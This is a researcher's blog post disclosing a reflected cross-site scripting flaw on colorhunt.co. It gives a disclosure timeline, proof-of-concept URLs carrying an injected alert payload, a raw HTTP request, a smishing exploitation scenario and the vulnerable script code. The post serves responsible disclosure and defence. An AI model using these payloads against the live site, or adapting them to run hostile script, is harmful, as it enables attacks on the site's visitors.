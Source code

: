 ```yaml
---
title: Colorhunt.co Reflective Cross-Site Scripting (XSS) via Pallet Type
description: Finding Multiple DOM-Based XSS Vulnerabilities
featured: true
feature-header: "Featured Research \U0001F447"
tag: Vulnerability Research
image: "/assets/img/posts/2021-06-28-CVE-2021-35956/preview.png"
layout: post
date: '2021-06-28 00:01:21 -0400'
last-updated: '2021-06-28 00:01:21 -0400'
style: blog1
author: Tyler Butler
lead: Finding Multiple DOM-Based XSS Vulnerabilities
card: card-2
postid: 1
navheader: posts
---
```


In this post, I'll describe a DOM based reflective cross-site scripting vulnerability I disclosed to colorhunt.co back on June 5th. While the application owner was appreciative of the disclosure, they stated they were already aware of the vulnerability and had no plans to mitigate the risks. I offered to wait for public disclosure until a patch had been issued, and provided several mitigation strategies which could reduce the impact of the vulnerability, ultimately publishing this disclosure in late August. 

####  **Index**  
+  [Disclosure Timeline]({{page.url}}#-disclosure-timeline)  
+  [Executive Summary]({{page.url}}#executive-summary)  
+  [Proof of Concept]({{page.url}}#proof-of-concept)     

#### **⏱ Disclosure Timeline**

  <div class="timeline mt-1 mb-1">
      <div class="tl-item active">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I attempt to find a security contact at colorhunt.co, could not do so, and contacted team@colorhunt.co and product developer hello@galshir.com</div>
              <div class="tl-date text-muted mt-1">5 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I recieve response hello@galshir.com requesting the disclosure details</div>
              <div class="tl-date text-muted mt-1">5 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">I provide a complete <a href="/assets/pdf/colorhunt_xss_disclosure.pdf" class="highlighted">disclosure report</a></div>
              <div class="tl-date text-muted mt-1">6 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">Colorhunt product developer states they were aware of the vulnerability</div>
              <div class="tl-date text-muted mt-1">7 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">I state I'll will wait for public disclsure until fix is live</div>
              <div class="tl-date text-muted mt-1">9 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">I do not recieve a response from previous email, and email again stating my desire to publish early July or wait longer if a patch will be published</div>
              <div class="tl-date text-muted mt-1">30 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">I do not hear back from product developer and publish the disclosure</div>
              <div class="tl-date text-muted mt-1">25 Aug 2021</div>
          </div>
      </div>
    </div>



### **Executive Summary**   
On June 5th, I discovered a reflected cross-site (xss) scripting vulnerability in colorhunt.co via the pallet type selection. Malicious users can inject arbitrary javascript directly into two script elements by appending a crafted payload to the end of the pallet name in the resource `/palettes/[term]`. This vulnerability can be used to spread malicious links that execute client-side code in victim browsers. It is recommended that colorhunt triage this vulnerability as soon as possible, and implement validation and sanitization measures.

### **Proof of Concept**:  
To demonstrate the vulnerability, I created a few proof of concept exploits. Notice that any payload will execute if placed after `/pallets/`, and the use of pallet terms like 'trendy' is not necessary. Performing a GET request with the following urls will result in an alert box executing.  
- [x] [https://colorhunt.co/palettes/trendy%22;alert('xss');var%20foo%20=%20%22foo](https://colorhunt.co/palettes/trendy%22;alert('xss');var%20foo%20=%20%22foo)  
- [x] [https://colorhunt.co/palettes/popular%22;alert('xss');var%20foo%20=%20%22foo](https://colorhunt.co/palettes/popular%22;alert('xss');var%20foo%20=%20%22foo)
- [x] [https://colorhunt.co/palettes/random%22;alert('xss');var%20foo%20=%20%22foo](https://colorhunt.co/palettes/random%22;alert('xss');var%20foo%20=%20%22foo)
- [x] [https://colorhunt.co/palettes/%22;alert('xss');var%20foo%20=%20%22foo](https://colorhunt.co/palettes/%22;alert('xss');var%20foo%20=%20%22foo)
- [x] [https://colorhunt.co/palettes/idontexist%22;alert('xss');var%20foo%20=%20%22foo](https://colorhunt.co/palettes/idontexist%22;alert('xss');var%20foo%20=%20%22foo)

**Payload**:  `trendy%22;alert('xss');var%20foo%20=%20%22foo`

```yaml
GET /palettes/trendy%22;alert('xss');var%20foo%20=%20%22foo HTTP/2
Host: colorhunt.co
Cookie: _ga=GA1.2.899449749.1622947948; _gid=GA1.2.309200134.1622947949; __gads=ID=e1e1623e28567740-22296d5a887a004b:T=1622947948:RT=1622947948:S=ALNI_MayH-wZSN2DBrZpy709ubLpdffneA
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```  



<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-01-colorhunt-xss/xss.png">
    </div>
</div>  


## Exploitability  
Below is a quick sample scenario that shows how this vulnerability can be exploited  

> *Attacker sends targeted smishing message to victim*  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-01-colorhunt-xss/scenario_part1.png">
    </div>
</div>  


> *Vitim recieves message and opens link*  



<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-01-colorhunt-xss/scenario_part2.png">
    </div>
</div>  


> *Payload executes in vicitm browser*  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-01-colorhunt-xss/scenario_part3.png">
    </div>
</div>  


### **Vulnerable Components**  

I've identified the following component as the root cause of the reflected XSS vulnerability.  

#### Vulnerable Component 1

The script element near line 193 of `https://colorhunt.co/palettes/trendy` takes the pallet type name ( in this case "trendy") and injects it into the `tags` variable. To exploit this, the payload above closes the tags variable, injects an arbitrary javascript function (in the below example, to log to the console), and then declares a new variable to close out the payload.  

```javascript
<script>
var tags = "trendy";console.log('foo');var foo = "foo";
var sort = "new";
$('#sort_menu new').addClass("selected");

t = 0;
step = 0;
oktoload = "yes";

if(navigator.userAgent.toLowerCase().indexOf('firefox') > -1){
  $('#likes .list').css('overflow','hidden');
}

$(function() {
  taker(step,sort,tags);
  list_likes();
  select_sort_button(sort);
  setTimeout(function() { like_first_palette_tip(); }, 1500);
});
</script>
```


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-01-colorhunt-xss/vulnerable-component-1.png">
    </div>
</div>  

#### Vulnerable Component 2: 

The script element near line 222 of `https://colorhunt.co/palettes/trendy` takes the pallet type name ( in this case "trendy") and injects it into the `current` variable. To exploit this, the payload above closes the tags variable, injects an arbitrary javascript function (in the below example, to log to the console), and then declares a new variable to close out the payload.  

```javascript
<script type="text/javascript">

$(function() {
  current = "palettes";
  tags = "trendy";alert('abc123');var foo = "foo";
  select_menu_button(current);
});
```


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-01-colorhunt-xss/vulnerable-component-2.png">
    </div>
</div>  
